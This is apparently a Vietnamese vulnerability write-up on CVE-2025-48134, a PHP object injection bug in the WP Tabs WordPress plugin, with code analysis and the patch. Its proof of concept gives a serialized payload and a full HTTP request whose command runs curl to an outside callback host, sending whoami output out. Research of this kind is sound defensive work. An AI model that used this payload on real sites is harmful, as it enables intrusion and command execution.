

<!--more-->

## CVE & Basic Info
Lỗ hổng Deserialization of Untrusted Data trong ShapedPlugin LLC WP Tabs cho phép Object Injection. Vấn đề này ảnh hưởng đến WP Tabs: từ n/a cho đến phiên bản 2.2.12.

* **CVE ID**: [CVE-2025-48134](https://www.cve.org/CVERecord?id=CVE-2025-48134)
* **Vulnerability Type**: PHP Object Injection
* **Affected Versions**: <= 2.2.12
* **Patched Versions**: 2.2.13
* **CVSS severity**: High (7.2)
* **Required Privilege**: Administrator
* **Product**: [WordPress WP Tabs Plugin]https://wordpress.org/plugins/wp-expand-tabs-free/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **WP Tabs**:  
    * `2.2.12` – **vulnerable**  
    * `2.2.13` – **patched
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Cause
**Trong phiên bản lỗi (v2.2.12):**

```php {title="class-wp-tabs-import-export.php" data-open=true hl_lines=[]}
$sanitize_value = $this->sanitize_and_collect_metabox_data( $key, maybe_unserialize( str_replace( '{#ID#}', $new_tabs_id, $value ) ) );
```

Trong đoạn mã này, hàm **`maybe_unserialize()`** được gọi trực tiếp trên dữ liệu người dùng (`$value` sau khi replace `'{#ID#}'` bằng `$new_tabs_id`). Điều này tạo ra lỗ hổng nghiêm trọng:

- **Nguy cơ Object Injection**: Nếu attacker chèn payload PHP object vào dữ liệu base64, quá trình decode và unserialize sẽ khởi tạo object độc hại, dẫn đến **Object Injection** và có khả năng tiến tới **Remote Code Execution (RCE)**.  
- **Thiếu kiểm tra an toàn**: Không có bước xác thực dữ liệu trước khi thực hiện unserialize.  
- **Không có cơ chế fallback**: Nếu dữ liệu không hợp lệ hoặc bị lỗi, hệ thống không có phương án xử lý thay thế, khiến ứng dụng dễ bị khai thác.  

**Bản vá (v2.2.13):** 



Bản vá đã sử dụng `unserialize` với option `'allowed_classes' => false` đã loại bỏ hoàn toàn khả năng tạo object, từ đó xử lý triệt để lỗ hổng.

## Analysis
Plugin đã đăng ký một ajax dành cho người dùng đã đăng nhập (`wp_ajax_`)

```php {title="class-wp-tabs.php" data-open=true hl_lines=[]}
$this->loader->add_action( 'wp_ajax_tabs_import_shortcode', $import_export, 'import_shortcode' );
```

Khi truy cập endpoint `/wp-admin/admin-ajax.php` với `action=tabs_import_shortcode` thì callback `import_shortcode` sẽ được gọi

```php {title="class-wp-tabs-import-export.php" data-open=true hl_lines=[21]}
public function import_shortcode() {
    $nonce = ( ! empty( $_POST['nonce'] ) ) ? sanitize_text_field( wp_unslash( $_POST['nonce'] ) ) : '';
    if ( ! wp_verify_nonce( $nonce, 'wptabspro_options_nonce' ) ) {
        wp_send_json_error( array( 'message' => esc_html__( 'Error: Nonce verification has failed. Please try again.', 'wp-expand-tabs-free' ) ), 401 );
    }
    $allow_tags = isset( $_POST['unSanitize'] ) ? sanitize_text_field( wp_unslash( $_POST['unSanitize'] ) ) : '';
    // Don't worry sanitize after JSON decode below.
    $data         = isset( $_POST['shortcode'] ) ? wp_unslash( $_POST['shortcode'] ) : '';//phpcs:ignore
    $data       = json_decode( $data );
    $data       = json_decode( $data, true );
    $shortcodes = $allow_tags ? $data['shortcode'] : wp_kses_post_deep( $data['shortcode'] );
    if ( ! $data ) {
        wp_send_json_error(
            array(
                'message' => __( 'Nothing to import.', 'wp-expand-tabs-free' ),
            ),
            400
        );
    }

    $status = $this->import( $shortcodes );

    if ( is_wp_error( thing: $status ) ) {
        wp_send_json_error(
            array(
                'message' => $status->get_error_message(),
            ),
            400
        );
    }

    wp_send_json_success( $status, 200 );
}
```

Hàm thực hiện kiểm tra nonce, nếu không hợp lệ thì gửi error và dừng chương trình lại.

Khi test các chức năng của plugin, tôi thấy chức năng **import** xuất hiện ở endpoint `/wp-admin/edit.php?post_type=sp_wp_tabs&page=tab_tools#tab=2`


Chức năng này chỉ dành cho Administrator, nên nonce hợp lệ cũng là nonce thuộc về Administrator.

Dữ liệu trong JSON file được upload sẽ được gán cho param `shortcode` khi POST request được gửi.

```php
$data       = isset( $_POST['shortcode'] ) ? wp_unslash( $_POST['shortcode'] ) : '';//phpcs:ignore
$data       = json_decode( $data );
$data       = json_decode( $data, true );
```

Plugin lấy dữ liệu này và thực hiện decode JSON 2 lần. Ở lần 2 với tham số thứ 2 `associative=true` thì JSON sẽ được convert sang array trong PHP theo mô tả của hàm:

> [!QUOTE]
> @param $associative: When true , JSON objects will be returned as associative arrays; when false , JSON objects will be returned as objects. When null , JSON objects will be returned as associative arrays or objects depending on whether JSON_OBJECT_AS_ARRAY is set in the flags.

Sau đó `import( $shortcodes )` được gọi với `$shortcodes` là giá trị của `$data['shortcode']`, ta có thể thấy được cấu trúc hiện tại của JSON cần upload:

```json
{
  "shortcode": {
  }
}
```

```php {title="class-wp-tabs-import-export.php" data-open=true hl_lines=[11]}
public function import( $shortcodes ) {
    $errors = array();
    foreach ( $shortcodes as $index => $shortcode ) {
        $errors[ $index ] = array();
        $new_tabs_id      = 0;
        try {
            ...
            if ( isset( $shortcode['meta'] ) && is_array( $shortcode['meta'] ) ) {
                foreach ( $shortcode['meta'] as $key => $value ) {
                    if ( 'sp_tab_source_options' === $key || 'sp_tab_shortcode_options' === $key ) {
                        $sanitize_value = $this->sanitize_and_collect_metabox_data( $key, maybe_unserialize( str_replace( '{#ID#}', $new_tabs_id, $value ) ) );

                        update_post_meta(
                            $new_tabs_id,
                            $key,
                            $sanitize_value
                        );

                    }
                }
            }
        } catch ( Exception $e ) {
            array_push( $errors[ $index ], $e->getMessage() );
            // If there was a failure somewhere, clean up.
            wp_trash_post( $new_tabs_id );
        }
        ...
    }

    $errors = reset( $errors );
    return isset( $errors[0] ) ? new WP_Error( 'import_tabs_error', $errors[0] ) : $shortcodes;
}
```

Hàm duyệt qua các shortcode và kiểm tra `shortcode['meta']` có tồn lại dưới dạng mảng hay không, nếu có sẽ duyệt từng phần từ trong mảng `$shortcode['meta']`.

```php
$sanitize_value = $this->sanitize_and_collect_metabox_data( $key, maybe_unserialize( str_replace( '{#ID#}', $new_tabs_id, $value ) ) );
```

Nếu key là `sp_tab_source_options` hoặc `sp_tab_shortcode_options`:
- Thay thế chuỗi `{#ID#}` trong giá trị bằng `$new_tabs_id`.
- Gọi hàm `maybe_unserialize()` để giải mã dữ liệu nếu nó đang ở dạng serialize.
- Gọi hàm `sanitize_and_collect_metabox_data()` để lọc và chuẩn hóa dữ liệu.  
- Cuối cùng, dùng `update_post_meta()` để lưu dữ liệu đã xử lý vào bảng meta của post có ID `$new_tabs_id`.

Như vậy ta có thể thấy nội dung JSON file cần upload là:

```json {data-open=true}
{
  "shortcode": {
    "shortcode1": {
      "meta": {
        "sp_tab_source_options": "serialized_payload"
      }
    }
  }
}
```

## Flow


graph TD

A["Administrator uploads JSON via /wp-admin/admin-ajax.php?action=tabs_import_shortcode"] --> B["import_shortcode() invoked"]

B --> C{"Check nonce: wp_verify_nonce()"}
C -->|Fail| X["Stop & return error: Nonce verification failed"]
C -->|Pass| D["json_decode() twice → extract $shortcodes"]

D -->|Empty/Invalid| Y["Stop & return error: Nothing to import"]
D -->|Valid| E["Call import($shortcodes)"]

E --> F["Loop through each shortcode"]
F --> H{"Has 'meta' and is array?"}
H -->|No| Z["Skip entry"]
H -->|Yes| I["Loop each meta field"]

I --> J{"Key == 'sp_tab_source_options' OR 'sp_tab_shortcode_options'?"}
J -->|No| Z
J -->|Yes| K["Replace {#ID#} with new ID"]

K --> L["maybe_unserialize() ← Vulnerable"]

L --> M{"Does unserialize create object?"}
M -->|Yes| R["Object Injection → Possible RCE if malicious class exists"]
M -->|No| S["Sanitize + update_post_meta() and continue"]



## Proof of Concept (PoC)
1. Tạo class để test đặt trong `wp-config.php`
```php
class Evil
{
    public $command = "ls /";
    public function __destruct()
    {
        die(system($this->command));
    }
}
```
2. Import JSON file:

```php
{
  "shortcode": {
    "shortcode1": {
      "meta": {
        "sp_tab_source_options": "O:4:\"Evil\":1:{s:7:\"command\";s:75:\"curl http://m7uzxda0q6dtl9sp5pvah7vuilocc30s.oastify.com/?leadked=$(whoami)\";}"
      }
    }
  }
}
```

```HTTP
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: administrator_cookie
...
shortcode=%22%7B%5Cr%5Cn++%5C%22shortcode%5C%22%3A+%7B%5Cr%5Cn++++%5C%22shortcode1%5C%22%3A+%7B%5Cr%5Cn++++++%5C%22meta%5C%22%3A+%7B%5Cr%5Cn++++++++%5C%22sp_tab_source_options%5C%22%3A+%5C%22O%3A4%3A%5C%5C%5C%22Evil%5C%5C%5C%22%3A1%3A%7Bs%3A7%3A%5C%5C%5C%22command%5C%5C%5C%22%3Bs%3A75%3A%5C%5C%5C%22curl+http%3A%2F%2Fm7uzxda0q6dtl9sp5pvah7vuilocc30s.oastify.com%2F%3Fleadked%3D%24(whoami)%5C%5C%5C%22%3B%7D%5C%22%5Cr%5Cn++++++%7D%5Cr%5Cn++++%7D%5Cr%5Cn++%7D%5Cr%5Cn%7D%22&action=tabs_import_shortcode&nonce=b6d5e5977d&unSanitize=
```


# Conclusion

CVE-2025-48134 xuất phát từ việc deserialization dữ liệu không đáng tin cậy thông qua `maybe_unserialize()` trong quá trình import, cho phép PHP Object Injection và có thể dẫn đến RCE nếu tồn tại class nguy hiểm. Dù yêu cầu tài khoản Administrator và nonce hợp lệ, hậu quả vẫn nghiêm trọng khi bị khai thác. Phiên bản 2.2.13 đã sửa bằng cách không cho phép tạo object tùy ý khi unserialize.

# Key Takeaways

* Nguyên nhân: deserialization dữ liệu input không kiểm soát.
* Hậu quả: Object Injection và Remote Code Execution.
* Cần quyền Administrator để khai thác.
* Không nên unserialize dữ liệu người dùng nếu không giới hạn class hoặc kiểm soát an toàn.

## References

[Deserialization](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html)

[WordPress WP Tabs Plugin <= 2.2.12 is vulnerable to PHP Object Injection](https://patchstack.com/database/wordpress/plugin/wp-expand-tabs-free/vulnerability/wordpress-wp-tabs-2-2-11-php-object-injection-vulnerability)     
